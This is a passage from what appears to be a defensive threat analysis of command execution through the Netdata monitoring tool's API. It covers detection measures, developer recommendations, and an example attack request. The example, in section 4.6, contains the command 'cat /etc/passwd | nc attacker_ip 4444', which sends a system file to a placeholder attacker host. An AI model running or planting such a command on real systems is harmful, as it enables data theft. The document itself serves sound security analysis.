 *   **API Request Logging:**  Log all API requests, including the endpoint accessed, parameters used, and the source IP address. This can help in identifying suspicious activity.
*   **Anomaly Detection:** Implement anomaly detection systems to identify unusual patterns in API traffic, such as unexpected endpoints being accessed or unusual parameter values.
*   **Security Information and Event Management (SIEM):** Integrate Netdata logs with a SIEM system to correlate events and identify potential attacks.
*   **Intrusion Detection/Prevention Systems (IDS/IPS):** Deploy network-based or host-based IDS/IPS to detect and potentially block malicious API requests.
*   **Monitoring System Resource Usage:** Monitor the resource usage of the Netdata server for unusual spikes or patterns that might indicate malicious activity.
*   **Alerting on Suspicious Activity:** Configure alerts to notify security teams of suspicious API activity, such as failed authentication attempts, access to sensitive endpoints, or unusual command execution patterns.

**4.6 Example Scenario:**

Let's consider a hypothetical vulnerable Netdata API endpoint: `/api/v1/run_command`. This endpoint might be intended for internal debugging or administrative tasks but is exposed without proper authorization or input validation.

An attacker could craft a malicious API request like this:

```
POST /api/v1/run_command HTTP/1.1
Host: <netdata_server_ip>
Content-Type: application/json

{
  "command": "cat /etc/passwd | nc attacker_ip 4444"
}
```

If the `run_command` endpoint directly executes the provided command without proper sanitization, this request would execute `cat /etc/passwd | nc attacker_ip 4444` on the Netdata server, sending the contents of the `/etc/passwd` file to the attacker's machine.

**5. Conclusion and Recommendations:**

The attack path "Abuse Netdata API -> API Endpoint Exploitation -> Utilize vulnerable API endpoints to execute commands on the Netdata server" poses a significant risk to the security of the Netdata instance and the monitored environment. Successful exploitation could lead to full server compromise and data breaches.

**Recommendations for the Development Team:**

*   **Prioritize API Security:**  Make API security a top priority in the development lifecycle. Implement secure coding practices and conduct thorough security reviews of all API endpoints.
*   **Implement Robust Authentication and Authorization:**  Ensure that all API endpoints are properly protected by strong authentication and granular authorization mechanisms.
*   **Focus on Input Validation:**  Implement strict input validation on all API endpoints to prevent injection attacks.
*   **Minimize Command Execution:**  Avoid or minimize the use of API endpoints that directly execute system commands based on user input. If necessary, implement robust security measures.
*   **Regular Security Testing:**  Conduct regular security audits and penetration testing specifically targeting the Netdata API.
*   **Educate Developers:**  Provide security training to developers on common API vulnerabilities and secure development practices.
*   **Adopt a Security-First Mindset:**  Foster a security-first mindset throughout the development process.
